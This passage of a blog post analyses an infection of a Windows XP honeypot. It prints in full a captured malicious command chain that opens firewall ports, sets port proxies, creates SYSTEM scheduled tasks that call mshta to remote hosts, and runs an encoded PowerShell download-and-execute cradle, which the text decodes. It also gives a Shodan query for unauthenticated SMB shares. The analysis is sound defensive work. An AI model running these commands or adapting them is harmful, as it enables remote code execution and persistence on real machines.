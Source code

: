 We can see that mshta has established a connection to http://66-228-54-160.ip.linodeusercontent.com, but what the hell is actually on there? Going to the site, we can see that it is completely blank other than a copyright notice on the bottom of the page as well as a cookie cutter privacy policy, however looking in the debugger section of Firefox's developer tools, we can see two scripts: `deliver.js` and `nrb.js`. The first script has a couple of random sites as well as notably fetching data related to Google Adsense although the page does not actually display ads, and although I thought the second script may have been related to C2 because of how obfuscated it was, it turns out it was just some sort of analytics script developed by New Relic. It seems the page may be related to collecting data analytics related to hijacked machines? I may be wrong, but that is my guess.

When inspecting the Wireshark packets, I can see that `C:\Windows\temp\msInstall.exe` is ran early on, followed by a large string of data from the program, followed by some commands being ran. There were periods placed throughout these commands because of how the packets are crafted, but if you're curious to see the actual data, it is pasted below (minus any periods):

```cmd /c echo rCsPzfRF >> c:\windows\temp\msInstallexe&echo copy /y c:\windows\temp\msInstallexe c:\windows\eVBnjnexe>c:/windows/temp/pbat&echo "*" >c:\windows\temp\ebtxt&echo netsh interface ipv6 install >>c:/windows/temp/pbat &echo netsh firewall add portopening tcp 65532 DNS2  >>c:/windows/temp/pbat&echo netsh interface portproxy add v4tov4 listenport=65532 connectaddress=1111 connectport=53 >>c:/windows/temp/pbat&echo netsh firewall add portopening tcp 65531 DNSS2  >>c:/windows/temp/pbat&echo netsh interface portproxy add v4tov4 listenport=65531 connectaddress=1111 connectport=53 >>c:/windows/temp/pbat&echo netsh firewall add portopening tcp 65529 DNSS3  >>c:/windows/temp/pbat&echo netsh interface portproxy add v4tov4 listenport=65529 connectaddress=1111 connectport=53 >>c:/windows/temp/pbat&echo if exist C:/windows/system32/WindowsPowerShell/ (powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAHQALgBhAG0AeQBuAHgALgBjAG8AbQAvAGcAaQBtAC4AagBzAHAAJwApAA==^&schtasks /create /ru system /sc MINUTE /mo 60 /st 07:05:00 /tn FnPC /tr "c:\windows\eVBnjnexe" /F) else start /b sc start Schedule^&ping localhost^&sc query Schedule^|findstr RUNNING^&^&^(schtasks /delete /TN Autocheck /f^&schtasks /create /ru system /sc MINUTE /mo 50 /ST 07:00:00 /TN Autocheck /tr "cmdexe /c mshta http://wzz3r0com/pagehtml?p%COMPUTERNAME%"^&schtasks /run /TN Autocheck^&schtasks /delete /TN FnPC /f^&schtasks /create /ru system /sc MINUTE /mo 50 /ST 07:00:00 /TN FnPC /tr "c:\windows\eVBnjnexe"^&schtasks /run /TN FnPC^&schtasks /delete /TN Autoload /f^&schtasks /create /ru system /sc MINUTE /mo 10 /ST 07:00:00 /TN Autoload /tr "c:\windows\temp\installedexe"^&schtasks /run /TN Autoload^) >>c:/windows/temp/pbat&echo net start Ddriver >>c:/windows/temp/pbat&echo for /f  %%i in ('tasklist ^^^| find /c /i "cmdexe"'^) do set s=%%i >>c:/windows/temp/pbat&echo if %s% gtr 10 (shutdown /r) >>c:/window/SMB/HX/PSMB/HX@?s/temp/pbat&echo del c:\windows\temp\pbat>>c:/windows/temp/pbat&echo c:\windows\temp\installedexe>>c:/windows/temp/pbat&cmdexe /c c:/windows/temp/pbat&cmd /c c:\windows\temp\installedexe```

Several things are happening here. A, the `msInstall.exe` program is being copied to other places on the computer, IPv6 seems to be installed, ports are being opened and a port proxy is created, a base64 encoded powershell script is ran which decodes to `IEX(New-Object Net.WebClient).DownloadString('http://t.amynx.com/gim.jsp')`, tasks are scheduled, and finally, certain files are deleted. This has marked effects across the system and seems to be for the goal of persistence, especially with the scheduled tasks.

![the scheduled tasks](/images/xp-honeypot/tasks.png)

If you're curious about the exe which was dropped onto the machine, I uploaded it to [VirusTotal](https://www.virustotal.com/gui/file/990543287d35a34f0e6d62ca852012915246cd9df6faf052f4741b9ea2890090/detection). Ultimately this may have been intended to enslave the machine into a botnet, I'm not quite sure, but I think the information collected is quite interesting and thought it would be worth sharing.

## Why it matters today

One would think that this is a pointless exercise because like I said, most machines, even those running insecure versions of Windows like the one I used, aren't really subject to this kind of sophisticated automated attack. However, there are billions upon billions of machines across the world running right now, some of which are not only vulnerable and old, but also exposed to the internet because of one reason or another. This can be demonstrated by using Shodan - where every IP address is scanned and can be looked up. By using the query `"Authentication: disabled" port:445`, we can find SMB shares with zero authentication, running and accessible to the open internet. 

![shodan exposure](/images/xp-honeypot/shodan.png)

While almost 220,000 hits is a small number when taking into account the larger Internet, it is a substantial number of compromisable machines nonetheless (especially in Pakistan, for whatever reason), and demonstrates why it is economical for IP addresses to continue to scan and attempt to hijack machines in the manner that happened to my honeypot VM. These machines are still exploited and used for nefarious purposes constantly; whether it is seen or not. The lesson? Make sure that you are properly configuring your network - do not expose any more than is actually necessary. Wall off your stuff properly, and if you seriously need to use legacy hardware, make sure it is walled off!